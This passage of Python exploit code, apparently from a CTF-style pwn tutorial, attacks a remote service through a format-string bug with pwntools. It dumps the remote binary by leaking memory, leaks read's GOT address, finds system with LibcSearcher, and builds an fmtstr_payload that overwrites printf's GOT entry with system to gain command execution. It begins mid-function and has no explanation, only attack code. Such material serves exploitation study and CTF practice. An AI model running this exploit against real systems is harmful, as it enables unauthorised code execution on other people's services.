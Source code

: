 ```python
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
            sh.close()
            return data
        except Exception:
            num += 1
            continue
    return None


def getbinary():
    addr = 0x400000
    f = open('binary', 'w')
    while addr < 0x401000:
        data = leak(addr)
        if data is None:
            f.write('\xff')
            addr += 1
        elif len(data) == 0:
            f.write('\x00')
            addr += 1
        else:
            f.write(data)
            addr += len(data)
    f.close()


##getbinary()
read_got = 0x601020
printf_got = 0x601018
sh = remote(ip, port)
## let the read get resolved
sh.sendline('a')
sh.recv()
## get printf addr
payload = '%00008$s' + 'STARTEND' + p64(read_got)
sh.sendline(payload)
data = sh.recvuntil('STARTEND', drop=True).ljust(8, '\x00')
sh.recv()
read_addr = u64(data)

## get system addr
libc = LibcSearcher('read', read_addr)
libc_base = read_addr - libc.dump('read')
system_addr = libc_base + libc.dump('system')
log.success('system addr: ' + hex(system_addr))
log.success('read   addr: ' + hex(read_addr))
## modify printf_got
payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
## get all the addr
addr = payload[:32]
payload = '%32d' + payload[32:]
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
for i in range(6, 10):
    old = '%{}$'.format(i)
    new = '%{}$'.format(offset + i)
    payload = payload.replace(old, new)
remainer = len(payload) % 8
payload += (8 - remainer) * 'a'
payload += addr
sh.sendline(payload)
sh.recv()

```